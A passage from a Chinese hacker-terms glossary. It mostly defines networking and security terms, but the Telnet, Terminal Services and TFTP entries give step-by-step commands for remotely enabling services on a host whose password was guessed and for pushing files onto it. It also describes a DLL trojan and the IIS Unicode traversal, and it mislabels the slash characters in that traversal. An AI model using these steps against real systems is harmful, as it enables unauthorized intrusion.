TCPDUMP 是常用的网络数据分析器，当然，也可以把它看作嗅探器。TCPDUMP 可以将网络中传送的数据包完全截获下来提供分析。它支持针对网络层、协议、主机、网络或端口的过滤，并提供 and、or、not 等逻辑语句来帮助用户去掉无用的信息。

TCPDUMP 是免费的，并且提供了源代码，公开了接口，因此具备很强的可扩展性，对于网络维护和入侵者都是非常有用的工具。TCPDUMP 存在于基本的 FreeBSD 系统中，由于它需要将网络界面设置为混杂模式，普通用户不能正常执行，但具备 root 权限的用户可以直接执行它来获取网络上的信息。

## TEFS 应用程序

TEFS 是一款性能卓越的加密软件，它可以向计算机系统提供安全、便捷、广泛的数据安全解决方案，在任何时间、地点都会保护用户文件数据不被泄漏，便捷地让用户使用文件数据。授权用户可以直接使用加密文件和文件夹，无需先进行繁琐的解密操作，就像使用一般文件和文件夹一样。例如 ACDSee 可以看加密图片，Word 可以编辑加密文档，甚至直接运行加密过的应用程序。而且还可以通过关闭加密服务，方便地将加密数据移动到其他存储器上。

## Teleport Ultra 应用程序

Teleport Ultra 是一款离线浏览器，它不仅仅是让用户可以离线浏览某个网页，同时也可以从 Internet 的任何地方抓回用户想要的任何文件。它可以在用户指定的时间自动登录到用户指定的网站下载用户指定的内容，用户还可以用它来创建某个网站的完整镜像，作为创建用户自己网站的参考。这款软件帮助许多用户快速抓取一个网站的主要内容并离线查看，以节省大量的连线费用与时间。

## Telnet 黑客技术基础

Telnet 即远程终端登录协议，它是 TCP/IP 协议族中的一员，是 Internet 远程登录服务的标准协议。通过它，允许任何主机（无论是什么操作系统）远程登录到另一个主机上，然后对远程终端进行控制。

它提供了三种基本服务：

1. Telnet 定义一个网络虚拟终端为远程系统提供一个标准接口。客户机程序不必详细了解远程系统，只需构造使用标准接口的程序；  
2. Telnet 包括一个允许客户机和服务器协商选项的机制，而且它还提供一组标准选项；  
3. Telnet 对称处理连接的两端，即 Telnet 不强迫客户机从键盘输入，也不强迫客户机在屏幕上显示输出。  

Telnet 最初是由 ARPANET 开发的，它通过 TCP 协议建立服务器与客户机之间的连接。连接上就成功地虚拟了一个终端，这个虚拟终端至少在表现形式上等同于两台机器之间的一个串行连接，客户机可以通过 Telnet 将两台计算机紧密地结合在一起。

用户在客户机用键盘录入的所有信息都将传给服务器，而服务器计算机对此信息的回显都会在客户机上显示出来。其结果就是，使用者的键盘及屏幕似乎与远程计算机直接连在一起。同时，它也是 C/S 模式的典型应用。

通过 Telnet，使用者可以很方便地控制远程主机，也可以说此时使用者得到了一个远程的 Shell，这个 Shell 其实与本地的 Shell 没有什么不同，这样极大地方便了要使用与维护远程主机的人们。

Windows 下也给 Telnet 协议提供了强大的支持，同时也自带了 Telnet 服务，一般其服务端口为 23。而这自然就成了入侵时的一个重大突破口，下面简单地讲解一下利用 Telnet 入侵并控制远程主机。

我们假设已经获得了远程主机的弱口令。首先用 net use 命令建立 ipc$ 连接，即输入：

```bash
net use \\192.168.0.1\ipc$ "1234" /user:"cody"
```

（这里的 192.168.0.1 为对方 IP，cody 与 1234 分别为对方的密码）再用 sc 命令把禁用的 Telnet 服务变成自动，输入：

```bash
sc \\192.168.0.1 config tlntsvr start=auto
```

最后用 sc 命令将 Telnet 启动，输入：

```bash
sc \\192.168.0.1 start tlntsvr
```

这样就打开了远程主机的 Telnet 服务，不过由于 NTLM 的关系，现在并不能直接登录，必须先去除这个认证，否则直接登录上……


图 T-6

## 黑客术语图文辞典 → tElock

……就会得到如图 T-6 所示的结果。

这里，我们只需要先在本机上建立一个名称为 CODY、密码为 1234 的用户，再在 CMD 下输入命令：`runas /profile /env /user:localhost\cody "cmd.exe"`，即可打开一个新的 CMD，如图 T-7 所示。接着在此 CMD 下直接 Telnet 到远程主机上即可，如图 T-8 所示。输入 Y 并回车后即可进入远程主机，如图 T-9 所示。


当然，也可以简单地使用 openTelnet 远程开启 Telnet，OpenTelnet.exe 是用来启动远程服务器的 Telnet 的工具软件，用法为：

```bash
OpenTelnet.exe \\server <账号> <密码> <NTLM认证方式> <Telnet端口>
```

例如：`C:\>OpenTelnet.exe \\192.168.1.2 administrator 123456 0 90`，这条命令的意思是连接 192.168.1.2，账号为 administrator，密码为 123456，0 表示不使用 NTLM 认证方式，Telnet 的端口是 90。当程序运行后得到：

```text
BINGLE!!!Yeah!!
Telnet Port is 90. You can try: Telnet ip 90 to connect the server!
Disconnecting server...Successfully!
```

这就说明 Telnet 服务启动成功，并且使用的端口是 90。这样，我们就能够得到一个开 90 端口的 Telnet 主机了。

## tElock 应用程序，加密解密

tElock 使用 UPX 内核压缩可执行文件，还包括 DLL、OCX 文件，并有防止 SoftIce 调试、敏捷压缩、重整覆盖、重整 Reloc、允许 ITA 定位、产生任意数字的文件头等功能。声称压缩率与 Upx、Petite、Aspack、peCompact、Shrinker、Neolite、WWPack 等不相上下，且压缩效果还较高一筹，并具有压缩加密功能。

## Terminal Services 操作系统及其相关

即终端服务，它是微软为 Windows NT 版本以上提供的一项特殊服务，在网络上俗称 3389 服务。终端服务提供了通过作为终端仿真器工作的“瘦客户机”软件远程访问服务器桌面的能力。它只把该程序的用户界面传给客户机，客户机然后返回键盘和鼠标动作，以便由服务器处理。每个用户都只能登录并看到它们自己的会话，这些会话由服务器操作系统透明地进行管理，而且与任何其他客户机会话无关。客户软件可以运行在多个客户机硬件设备上，包括计算机和基于 Windows 的终端。

终端服务可以在应用服务器模式或远程管理模式下通过服务器进行配置。作为应用服务器，终端服务提供了一种有效而可靠的方式，通过网络服务器分发基于 Windows 的程序。在应用服务器模式下，终端服务为可能无法正常运行 Windows 的计算机显示 Windows 2000 的桌面以及目前基于 Windows 的大多数应用程序。在远程管理模式下使用时，终端服务提供了远程访问的能力，使用户可以从网络上的任何地方虚拟地管理服务器。

综合地来讲，终端服务有以下好处：

1. 更快地显示 Windows 的桌面，同时终端服务客户端可用于多种不同的桌面平台，包括 MS-DOS、基于 Windows 的终端、Macintosh 和 Unix。  
2. 充分利用已有的硬件。当计算机在现有的网络上时，可以继续使用，同时也可作为能仿真桌面的瘦客户机使用。  
3. 程序的集中配置。在 Windows 2000 的终端服务下，所有程序的执行、数据的处理以及数据的存储都在服务器上进行，程序得以集中配置。终端服务可确保所有客户机都能访问当前版本的程序，软件只能在服务器上安装一次，而不能安装在你单位的每个桌面上，这样可减少单独更新计算机所花费的成本。  
4. 远程管理。终端服务提供了对 Windows 的远程管理，为系统管理员提供了从任何客户机通过广域网或拨号连接远程管理其服务器的一种方法。  

以上几个特性决定了它在网络界的地位，它比任何一个木马的功能都强大，因为有了它，你就等于完全控制了对方的电脑，可以完全在上面完成本机的一切入侵任务（只要你的网速够快）。

下面介绍如何用工具开启终端服务，由于网上已经拥有成堆的傻瓜化开启工具，所以这里主要介绍不用任何其他工具开 3389 的两种方法。

### 1、利用 sc 开启对方终端服务

首先辨别对方是不是 Win2000 Server 系统，可以用小榕 CCA 看对方的用户，如果有 TsInternetUser 这个用户，九成为 Server 版本 Win2000 系统。

```bash
C:\>cca \\\\192.168.0.29 dudu dancewithsnow
```

```text
Check Clone Account, by netXeyes 2002/04/29
```

```text
Written by netXeyes 2002;  dansnow@21cn.com
Connect 192.168.0.29 ....OK
Preparing ....OK
Processing ....OK
Checking ....
Check Result;
[DuDu] AS SAME AS [administrator]
[Guest] AS SAME AS [administrator]
[IUSR_RONG] AS SAME AS [administrator]
[IWAM_RONG] AS SAME AS [administrator]
[TEST] AS SAME AS [administrator]
[xr] AS SAME AS [administrator]
```

没有 TsInternetUser 这个用户，很明显条件不符合。接着看实例：

```bash
C:\>net use \\xxx.xxx.xxx.xxx\ipc$ "password" /user:"name"
C:\>sc \\xxx.xxx.xxx.xxx qc termservice
```

第一步，检查对方是否真的禁用了 Terminal Server，显示如下：

```text
[SC] GetServiceConfig SUCCESS
SERVICE_NAME: termservice
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 4 DISABLED
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\WINNT\System32\termsrv.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Terminal Services
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem
```

仔细看 START_TYPE 一项，显示对方该服务的启动模式为“DISABLED”，也就是“禁用”。  
第二步，更改对方终端服务的启动模式。

```bash
C:\>sc \\xxx.xxx.xxx.xxx config termservice start= auto

[SC] ChangeServiceConfig SUCCESS
```

好了，现在我们已经把对方终端服务的启动模式修改成自动了。  
第三步，再检查一遍对方终端服务的启动模式：

```bash
C:\>sc \\TEST qc termservice

[SC] GetServiceConfig SUCCESS
SERVICE_NAME: termservice
```

```
TYPE               : 10  WIN32_OWN_PROCESS
START_TYPE         : 2   AUTO_START
ERROR_CONTROL      : 1   NORMAL
BINARY_PATH_NAME   : C:\WINNT\System32\termsrv.exe
LOAD_ORDER_GROUP   :
TAG                : 0
DISPLAY_NAME       : Terminal Services
DEPENDENCIES       :
SERVICE_START_NAME : LocalSystem
```

仔细看 START_TYPE 一项，显示对方该服务的启动模式为 “AUTO_START”，也就是“自动”。

第四步，启动对方的终端服务：

```text
C:\>sc \\xxx.xxx.xxx.xxx start termservice
```

```text
SERVICE_NAME: termservice
TYPE               : 10  WIN32_OWN_PROCESS
STATE              : 2   START_PENDING
                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
WIN32_EXIT_CODE    : 0  (0x0)
SERVICE_EXIT_CODE  : 0  (0x0)
CHECKPOINT         : 0x1
WAIT_HINT          : 0x7530

C:\>sc \\xxx.xxx.xxx.xxx query termservice
SERVICE_NAME: termservice
TYPE               : 10  WIN32_OWN_PROCESS
STATE              : 4   RUNNING
                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
WIN32_EXIT_CODE    : 0  (0x0)
SERVICE_EXIT_CODE  : 0  (0x0)
CHECKPOINT         : 0x0
WAIT_HINT          : 0x0
```

到这里，对方的 3389 就在命令行下被启动了。

## 2、用远程修改注册表

首先打开注册表，连接网络注册表（前提是先跟对方建立空连接），找到相关键值，并修改为下列的值：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002

[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"
```

接着输入：`shutdown \\xxx.xxx.xxx.xxx -r`，对方重启后，3389 服务就开了。

那么我们怎么来防范通过 3389 端口的攻击呢？

- 首先是改 3389 端口，修改服务器端的端口设置，这其中需要在注册表修改两个地方：
  - 第一个地方是 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp]` 的 `PortNumber` 值，默认是 3389，修改成所希望的端口，比如 6000。
  - 第二个地方是 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp]` 的 `PortNumber` 值，默认是 3389，修改成所希望的端口，比如 6000。

修改后重启系统就可以了。**注意：** 其实只修改第二处也是可以的。另外，第二处的标准连接应是 `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\<connection>]`，`<connection>` 表示具体的某个 RDP-TCP 连接。

另外，也可以下载某些小程序来进行更改，比如 `http://www.haowawa.com/down/c3389.zip` 这个链接的程序，其使用格式为：`c3389 port`，`c3389` 为执行文件名称；`port` 是参数，你用自己需要修改的端口替换它即可。比如输入 `c3389 6000`，3389 端口就被修改为 6000 了。

最后是关于终端服务的另外两个小知识：

- 超出最大连接数的解决办法

首先你可以 Telnet 到此主机上（不管你用哪种方法），先看登录的用户，输入 `c:\tools>query user` 后假如显示如下：

```text
USERNAME  SESSIONNAME  ID  STATE   IDLE TIME  LOGON TIME
>w1       console      0   运行中   .          2002-1-19 2:37
 w1                    1   已断开   无         2002-1-19 3:14
```

你看到的可能是两个以上的 RDP 连接，在这里只是给大家做个演示。其中 ID 0 的用户是本地登录的，ID 1 的用户是 3389 登录的，已经断开了，快把它踢掉吧！输入命令 `C:\>logoff 1`，再用命令 `C:\>query user` 看看，只有 1 位用户了：

```text
USERNAME  SESSIONNAME  ID  STATE   IDLE TIME  LOGON TIME
>w1       console      0   运行中   .          2002-1-19 2:37
```

## 2、3389 中的快捷键

- `CTRL+ALT+END` —— 打开“Windows 安全”对话框。
- `ALT+PAGE UP` —— 从左向右在程序之间切换。
- `ALT+PAGE DOWN` —— 从右向左在程序之间切换。
- `ALT+INSERT` —— 按启动顺序来回切换程序。
- `ALT+HOME` —— 显示“开始”菜单。
- `CTRL+ALT+BREAK` —— 在窗口（如果适用）和全屏显示之间切换客户端。
- `ALT+DELETE` —— 显示窗口的弹出式菜单。
- `CTRL+ALT+-`（减号）—— 将客户端活动窗口的快照放在“终端”服务器的剪贴板上（与本地计算机上按下 `ALT+PrintScrn` 键的功能相同）。
- `CTRL+ALT++`（加号）—— 将整个客户端窗口区域的快照放在“终端”服务器的剪贴板上（与本地计算机上按下 `PrintScrn` 键时的功能相同）。

注意：在 NEC98 计算机中，这些快捷键在以下两种情况下会有些不同：`CTRL+ALT+BREAK` 由 `F12` 键代替；`CTRL+ALT+END` 由 `F15` 键代替。

## Terminal Services 的端口（操作系统及其相关）

即 **3389** 端口。

## TFTP（黑客技术基础）

TFTP 全称为 Trivial File Transfer Protocol，中文名叫简单文件传输协议。从它的名称上可看出，适合传送“简单”的文件。与 FTP 不同的是，它使用的是 UDP 的 69 端口，因此可以穿越一些防火墙。不过它也有缺点，比如传送不可靠、没有密码验证等。但是由于它的服务程序体积“娇小”，所以用来传输小文件是十分方便的。

通过 TFTP 传送文件时，需要服务端和客户端。也就是说，想使用 TFTP 协议时，也必须跟 FTP 一样，让服务器上运行提供 TFTP 服务的软件，下面简单讲解其使用过程。

## 【黑客术语图文辞典】→ THC Amap

首先必须有一个叫 **TFTPD32** 的程序，运行后它自动监听 UDP 的 69 端口，即把本机变成了一个 TFTP 服务器，如图 T-10 所示。远程主机所要下载的文件需要放在 TFTPD32 的保存目录下才能被客户端下载，更改下载目录的操作方法为：点击右上角的“Browse”，然后选择要下载的文件保存目录。

```bash
tftp -i xxx.xxx.xxx.xxx get file.exe
```

（这里 xxx.xxx.xxx.xxx 为本机的 IP 地址，file.exe 为所下载的文件），这样就可以把文件下载到远程主机上了。

```bash
tftp -i xxx.xxx.xxx.xxx put file.exe
```

（这里 xxx.xxx.xxx.xxx 为本机的 IP 地址，file.exe 为所上传的文件），这样就把 file.exe 上传到了本机。

## THC-Hydra（黑客工具）

**THC-Hydra** 是 Linux 下一款针对多种不同服务网络登录口令的破解工具，它可以用来对需要网络登录的系统进行快速的字典攻击。目前支持的类型包括：Samba、FTP、POP3、IMAP、Telnet、HTTP、LDAP、NNTP、MySQL、VNC、ICQ、Socks5、PCNFS、Cisco 等，支持 SSL 加密，现在已经支持 SSH2、MSSQL、SAP R/3 了。

## THC_Amap（黑客工具）

**THC_Amap** 是运行在 Linux/Unix/Windows 平台上的新一代安全扫描软件，通过探测端口响应的应用程序指纹数据来识别应用程序和服务，这样判断的准确性远大于仅通过默认端口号来判断应用程序和服务的方法，同时它也具有完善的 SSL 支持、完整的 RPC 探测等特点。

## Theef（黑客工具）

**Theef** 是一款功能很强的 DLL 木马，如图 T-11 所示，基本功能包括：可以插入进程、文件管理、进程管理、窗口管理、键盘记录、DOS 命令控制，支持编写 BAT、VBS，并拥有点对点聊天、抓屏、屏幕控制、键鼠控制、隐藏图标、修改网络设置等功能，还有网页侦测、URL 下载和上传同时进行等功能。其特性表现在：可以自动查杀进程，屏蔽防火墙和杀毒软件，而且不在线也可以记录键盘和密码，并可按照用户自己设定的窗口目标记录密码和键盘，还可以控制对方的打印机。另外，它可以设定运行服务端的时候运行特殊命令，但是此木马不支持反弹连接。

## TIME-WAIT（黑客技术基础）

TCP 连接状态的一种，在 CMD 下用 `netstat -an` 命令一般都可以看到。TIME-WAIT 表示等待足够的时间以确保远程 TCP 接收到连接中断请求的确认。详情请看 TCP 连接状态词条。

## Tiny Firewall（应用程序）

Tiny Firewall 是一款强大的网络防火墙工具，该软件不仅对网络攻击进行完全隐藏的防护，还提供了对应用软件访问 Internet 提供安全级限制。它可以设置为手工启动，或者设置为一个服务器。其中包括一个桌面管理工具，可用于对本地或远程计算机上的安全引擎进行详细配置。用户的安全设置有高、中、低三级，通过它的包过滤特性，每一级设置还可进行不同的配置，以满足特殊的需求。高级用户可以建立基于端口、应用、协议和目标的规则，每当遇到新的情况，立即提示，包括拒绝、接受或者建立处理未来动作的规则。其它的特性包括 MD5 签名支持、密码保护、及记录特殊的侵入动作等。

## TLS（安全技术）

TLS 全称为 Transport Layer Security Protocol，中文名为安全传输层协议，它的主要目标是在两个通信应用程序之间提供保密性和数据完整性。TLS 的前身是 SSL，它是 Internet 上最重要的安全标准。SSL 是由 Netscape 的工程师于 1993 年发布的，意在不改变现存应用和协议的前提下提供一种安全机制。SSL 的有效性使得它在 Internet 上十分流行，它已经成为了 Internet 标准，并且由 IETF（Internet Engineering Task Force）继续管理和发展。

如今 SSL 被更名为 TLS，该协议由两层组成：TLS 记录协议（TLS Record）和 TLS 握手协议（TLS Handshake）。较低的层为 TLS 记录协议，位于某个可靠的传输协议（例如 TCP）上面。TLS 记录协议提供了具有两个基本特性的连接安全性：TLS 记录协议用于封装各种高层协议。

作为这种封装协议之一的握手协议允许服务器与客户机彼此之间相互认证，并且在应用程序协议传输和接收其第一个数据字节前，协商加密算法和加密密钥。

TLS 的一大优势在于 TLS 是独立的应用协议。高层协议可以分布在 TLS 协议上面，然而 TLS 标准把如何添加 TLS 协议安全性、如何启动 TLS 握手协议以及如何解释认证证明的决定权留给运行在 TLS 上的协议的设计者和实施者来判断。

## Tomcat｜黑客技术基础

Tomcat 是一个免费的开放源代码的 Web 应用服务器，其性质跟 Windows 下的 IIS 一样。它是 Apache 软件基金会 Jakarta 项目中的一个核心项目，由 Apache、Sun 和其他一些公司及个人共同开发而成。如图 T-12 所示，其为 Tomcat 的标志。

图 T-12

由于有了 Sun 的参与和支持，最新的 Servlet 和 JSP 规范总是能在 Tomcat 中得到体现，因为 Tomcat 技术先进、性能稳定，而且免费，所以深受 Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的 Web 应用服务器。Tomcat 在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试 JSP 程序的首选。

Tomcat 很受广大程序员的喜欢，它运行时占用的系统资源小，扩展性好，支持负载平衡与邮件服务等开发应用系统常用的功能；而且它还在不断地改进和完善中，任何一个感兴趣的程序员都可以更改它或在其中加入新的功能。

实际上 Tomcat 部分是 Apache 服务器的扩展，它是独立运行的，所以当用户运行 Tomcat 时，它实际上作为一个与 Apache 独立的进程单独运行。

## Tool Kids｜特定名称

黑客界的俚语；一般用来形容只会利用工具进行入侵与攻击的初学者。

## Torrent｜黑客技术基础

即 Torrent 文件，这种文件通常很小，一般为几十 KB，其中包含了 BT 下载所必须的信息，包括对资源实际文件按照固定大小进行分块后，每块进行 SHA1 hash 运算得到的若干特征值的集合；资源中文件及目录的路径信息、名称及大小；Torrent 文件的创建时间、制作者填写的注释以及相关信息等；并且至少有一个 announce 地址，对应于 Internet 上部署的一个 Tracker 服务器。

## Total Commander｜应用程序

Total Commander 是一个功能强大的全能文件管理器（简称 TC），支持自定义的菜单、工具栏、快捷键，给你最大的自由。一般的文件操作，如搜索、复制、移动、更名、删除等功能应有尽有，更有文件内容比较、同步文件夹、批量重命名文件、分割合并文件、创建/检查文件校验（MD5/SFV）等实用功能。内置 ZIP/TAR/GZ/TGZ 格式的压缩/解压功能，ZIP 格式还支持创建加密及自解包功能。此外，不仅可以直接解开 ARJ/CAB/RAR/LZH/ACE/UC2 等压缩包，配合插件或相应的压缩程序更可创建这些格式的压缩包，像操作普通文件夹一样简单。而搜索功能，无论是文件还是内容，同样支持在这些压缩包中进行。

## TouchNet Browser｜应用程序

TouchNet Browser 是一款支持多标签浏览的网页浏览器，是一款共享软件，如图 T-13 所示。其使用 Internet Explorer 的内核，界面与 Internet Explorer 的界面类似，而且只需要极少的内存与超低的 CPU 占用率。

图 T-13

## Tracert 命令｜黑客技术基础，渗透技术

Tracert 是一个重要的网络命令，在 Windows 与 Linux 下都有广泛的使用（Linux 下为 traceroute）。通过 Tracert 命令可以进行路由跟踪，一般用于确定 IP 数据包访问目标时所经过的路径。Tracert 是通过向目标发送不同 IP 生存时间（TTL）值的“Internet 控制消息协议（ICMP）”回应数据包来获得信息判断的。

Tracert 先发送 TTL 为 1 的 ICMP 回应数据包，这样这个 ICMP 数据包在经过第一个路由时 TTL 就减为 0，同时处理此 ICMP 数据包的路由会向数据包发出的主机返回一个 ICMP 数据包，告诉它此数据包已经被抛弃（此过程具体情况请见 TTL 词条），并在随后的每次发送过程将 TTL 递增 1，直到目标响应或 TTL 达到最大值，从而确定路由。通过检查中间路由器发回的“ICMP 已超时”的消息确定路由。

在下例中，数据包必须通过两个路由器（10.0.0.1 和 192.168.0.1）才能到达主机 172.16.0.99。主机的默认网关是 10.0.0.1，192.168.0.0 网络上路由器的 IP 地址是 192.168.0.1。我们输入 Tracert 命令后的情况如下：

```bash
C:\>tracert 172.16.0.99 -d
Tracing route to 172.16.0.99 over a maximum of 30 hops

1   2 ms   3 ms   2 ms   10.0.0.1
2  75 ms  83 ms  88 ms   192.168.0.1
3  73 ms  79 ms  93 ms   172.16.0.99

Trace complete.
```

我们可以清楚地看到数据包经过了 10.0.0.1、192.168.0.1 与 172.16.0.99 三个路由。


## 【黑客术语图文辞典】→ TTL

在很多时候可以使用 `tracert` 命令确定数据包在网络上的停止位置。下例中，默认网关确定 192.168.10.99 主机没有有效路径，这可能是路由器配置的问题，或者是 192.168.10.0 网络不存在（错误的 IP 地址）。

```bash
C:\>tracert 192.168.10.99
Tracing route to 192.168.10.99 over a maximum of 30 hops
1 10.0.0.1 reports: Destination net unreachable.
Trace complete.
```

在进行渗透的过程中，Tracert 也是常用的命令之一，它可以帮助我们大概地判断对方的网络情况，以及自己身处的位置，方便为下一步的行动作出更好的选择。

## TTL 黑客技术基础

TTL 即数据包生存时间。TTL 是 IP 数据包中的一个值，它存在的主要目的是为了防止一些数据包因为无法到达目的地而被反复路由。

例如，不正确的路由表可能导致包的无限循环。解决方法就是在一段时间后丢弃这个包，然后给发送者一个报文，由发送者决定是否要重发。这个机制的重要组成部分就是 TTL。

一个数据包的 TTL 值是一定的，在每经过一个路由器后减 1，直到 TTL 减为 0 时这个数据包就被抛弃，并发送 ICMP 报文通知源主机。这样的机制很好地减少了网络资源的消耗，它告诉路由器，这个数据包在网络中的时间是否太长，路由器可以作出是否丢弃该数据包的选择。

TTL 的初始值通常是系统缺省值，不同的系统 TTL 初始值不同，一般 Windows95/98 与 Linux 的 TTL 都为 64，而 NT/2000/XP/2003 为 128，路由器为 255。

## type 命令 操作系统及其相关

Windows 下的常用命令之一，用来查看文本文档中的内容，例如 `type cody.txt`，即查看 cody.txt 文件中的内容。

### U

### UBBCode 黑客技术基础篇

即 UBBCode 代码，UBB 是一种比 HTML 更安全的网页代码，可以有效地防止 XSS 的产生。

### UBB 标签 黑客技术基础篇

UBB 标签就是不允许使用 HTML 语法的情况下，通过论坛的特殊转换程序，以致可以支持少量常用的、无危害性的 HTML 效果显示。

### Ubuntu 操作系统及其相关

Ubuntu 是最近新发布的一种 Linux 发行版，其桌面如图 U-1 所示。它基于 Debian 之上，囊括了大量精挑细选自 Debian 发行版的软件包，同时保留了 Debian 强大的软件包管理系统，以便简易地安装或彻底删除程序。与大多数发行版附带数量巨大的可用可不用的软件不同，Ubuntu 的软件包清单只包含那些高质量的重要应用程序。


图 U-1

Ubuntu 是一个南非的民族观念，着眼于人们之间的忠诚和联系。该词来自于祖鲁语和科萨语，Ubuntu（发音“oo-BOON-too”——“乌班图”）被视为非洲人的传统理念，也是建立新南非共和国的基本原则之一，与非洲复兴的理想密切相关。

Ubuntu 精神的大意是“人道待人”（对他人仁慈），另一种翻译可以是“天下共享的信念，连接起每个人”。作为一个基于 GNU/Linux 的平台，Ubuntu 操作系统将 Ubuntu 精神带到了软件世界。

## 黑客术语图文辞典 → UDP扫描

### UDP 黑客技术基础

UDP 全称为“User Datagram Protocol”，即“用户数据报文协议”。与 TCP 不同，UDP 协议并不提供数据传送的保证机制，如果从发送方到接收方的传递过程中出现数据报的丢失，协议本身并不能做出任何检测或提示。因此，通常人们把 UDP 协议称为不可靠的传输协议。相对于 TCP 协议，UDP 协议的另外一个不同之处在于如何接收突发性的多个数据报。


UDP 数据报将数据封装成一份份 IP 数据报，其格式如图 U-2 所示。而 UDP 首部的格式如图 U-3 所示。

**正如前面所说，UDP 不提供可靠性：它把应用程序传给 IP 层的数据发送出去，但是并不保证它们能到达目的地**，但 UDP 具有 TCP 望尘莫及的速度优势。

| 16位源端口号 | 16位目的端口号 |
|---|---|
| 16位UDP长度 | 16位UDP校验和 |
| 数据 |  |

图 U-3：UDP 首部结构

虽然 TCP 协议中植入了各种安全保障功能，但是在实际执行的过程中会占用大量的系统开销，无疑使速度受到严重的影响。反观 UDP，由于排除了信息可靠传递机制，将安全和排序等功能移交给上层应用来完成，极大降低了执行时间，使速度得到了保证。

- **TFTP** 服务：小文件传输协议，其安全性极差，因为它不带任何安全认证，经常用来夺取远程主机的密码文件。
- **SNMP**：即简单网络管理协议，在 Win2K 默认情况下，其 community string 密码为“public”，可以利用该服务得到系统版本、用户列表、共享列表、进程列表及所开服务等信息。

### UDP扫描 黑客技术基础

即指利用 UDP 数据包扫描 UDP 端口，但是 UDP 是一个不可靠的无连接协议，它不像 TCP 协议那样是面对面连接的，在 TCP 的端口扫描中，最简单的方法就是直接连接上对方的端口。如果目标主机的端口处于监听状态，则连接可以成功，对方会返回一个 **SYN/ACK** 包，说明这个 TCP 端口是开放的，否则即是关闭的。

但在 UDP 端口扫描中无法这样做，因为它是个无连接的协议，当向目标主机的 UDP 端口发送数据时，并不能收到一个开放端口的确认信息，或是关闭端口的错误信息。幸运的是，在大多数情况下，当向一个未开放的 UDP 端口发送数据时，其主机就会返回一个 **ICMP** 不可到达（`ICMP_PORT_UNREACHABLE`）的错误。

因此，大多数 UDP 端口扫描的方法就是向各个被扫描的 UDP 端口发送零字节的 UDP 数据包，如果收到一个 ICMP 不可到达的回应，那么则认为这个端口是关闭的，对于没有回应的端口则认为是开放的。

但是如果目标主机安装有防火墙或其他可以过滤数据包的软硬件，那发出 UDP 数据包后，将可能得不到任何回应，我们会看到所有被扫描的端口都是开放的。

### UID 安全技术

UID 是 userid 的简写，即用户账号。

### UltraEdit 应用程序

UltraEdit 是一套功能强大的文本编辑器，如图 U-4 所示，可以编辑文本、十六进制、ASCII 码，并取代记事本。软件内建英文单词检查，C++、VB、JAVA 等语言的着色处理，可同时编辑多个文件，而且即使开启很大的文件，速度也不会慢。其拥有 HTML 标签颜色显示、搜索替换以及无限制的还原功能，一般大家喜欢用来修改 EXE 或 DLL 文件。


### UNHIDE 黑客工具

一款用来查看星号密码的工具，ATO 已经将其集成。

### Unicode 黑客技术基础

Unicode 全称为 “Universal Multiple-Octet Coded Character Set”，中文称统一码、万国码或单一码，由国际组织设计，可以容纳全世界所有语言文字的编码方案，简称为 UCS。

UCS 可以看作是“Unicode Character Set”的缩写，是一种在计算机上使用的字符编码。它为每种语言中的每个字符设定了统一并且唯一的二进制编码，以满足跨语言、跨平台进行文本转换、处理的要求。1990 年开始研发，1994 年正式公布。随着计算机工作能力的增强，Unicode 也在面世以来的十多年里得到普及。

Unicode 的实现方式不同于编码方式，一个字符的 Unicode 编码是确定的，但是在实际传输过程中，由于不同系统平台的设计不一定一致，以及出于节省空间的目的，所以对 Unicode 编码的实现方式有所不同。**Unicode 的实现方式称为 Unicode 转换格式，即“Unicode Translation Format”，简称为 UTF，现在最常使用的格式是 UTF-8。**

## 【黑客术语图文辞典】→ Unicode漏洞

### Unicode漏洞 安全技术

Unicode 漏洞是一种古老但意义非凡的漏洞，它是因为 IIS 对 Unicode 编码的 URL 控制不严而引起的。

此漏洞是绿盟（NSFOCUS）在 2001 年发现的，在中美黑客大战中主要就是依靠 Unicode 漏洞。利用这个漏洞，攻击者可以远程调用服务器的 cmd 命令解释器，可以对服务器磁盘进行各种操作，这个漏洞在当时给互联网带来的威胁是巨大的。

此漏洞从中文 IIS4.0+SP6 开始出现，还影响中文简体 Win2000+IIS5.0、中文简体 Win2000+IIS5.0+SP1，中文繁体版同类操作系统也存在这样的漏洞。

Unicode 是一种编码格式，它可以用两组代码编制一个字符。例如下面在中文 Windows 2000 中的编码规则就是漏洞所需要利用到的：

```
%c1%1c -> (0xc1 - 0xc0) * 0x40 + 0x1c = 0x5c = '/'
%c0%2f -> (0xc0 - 0xc0) * 0x40 + 0x2f = 0x2f = '\'
```

攻击者利用“%c1%1c”和“%c0%2f”两个不完整的编码，通过系统转换可以得到正、反斜杠，这样就可以访问远程服务器上未开放的目录内容了。

